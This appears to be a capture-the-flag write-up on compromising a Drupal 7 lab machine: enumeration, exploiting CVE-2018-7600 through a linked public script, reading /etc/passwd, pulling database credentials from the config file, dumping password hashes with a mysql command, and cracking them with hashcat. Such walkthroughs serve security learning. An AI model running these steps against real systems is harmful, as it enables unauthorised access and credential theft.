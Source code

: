 
# Enumeration

Some basic nmap scan let us know that this box has 2 opening ports, `22, 80`

Visit the website, navigate around. But I see nothing interested
Tried to run some directory enumeration with `gobuster` but there is nothing interesting either.

So far, we got no information of what version of software is running on the website.
I go to Burp Suite, try to explore the requests to see if there is anything there.
And then I found something interesting, in the response header, there is a header

`X-..: Drupal 7` 
Now that is not a default header, it is a custom header. So I did some research and found out that Drupal is an CMS, and it has some known vulnerability with version < 7.58
I'd recommend you do some research about the vulnerability and how does it work before using the script for exploiting.
[Here](https://github.com/pimps/CVE-2018-7600/blob/master/drupa7-CVE-2018-7600.py) is the python script for that exploit

# Exploitation

With that python script above, we are able to get RCE on that machine, so first, we need to know how many users are in the system

```
cat /etc/passwd

...
brucetherealadmin:x:1000:1000::/home/brucetherealadmin:/bin/bash
```
Look like we have one user `brucetherealadmin`. 
Now as we all know how web applications work, when we have a web application is running on machine, we always have to check what port it is listening to and what database it is connecting to.

After some search for Drupal web config file, I was able to get this information, they are credentials for MySQL database running in the server

```
$databases = array (
  'default' =>
  array (
    'default' =>
    array (
      'database' => 'drupal',
      'username' => 'drupaluser',
      'password' => 'CQHEy@9M*m23gBVj',
      'host' => 'localhost',
      'port' => '',
      'driver' => 'mysql',
      'prefix' => '',
    ),
  ),
);
```

With database credentials, we can get user hashed passwords and crack them
```
mysql -u drupaluser -pCQHEy@9M*m23gBVj drupal -e "select username, password from users;"
```
Copy the hash to our local machine and we can use `hashcat` to crack it


User hash: $S$DgL2gjv6ZtxBo6CdqZEyJuBphBmrCqIV6W97.oOsUf1xAhaadURt
user cred: `brucetherealadmin: b****o`

# Post Exploitation
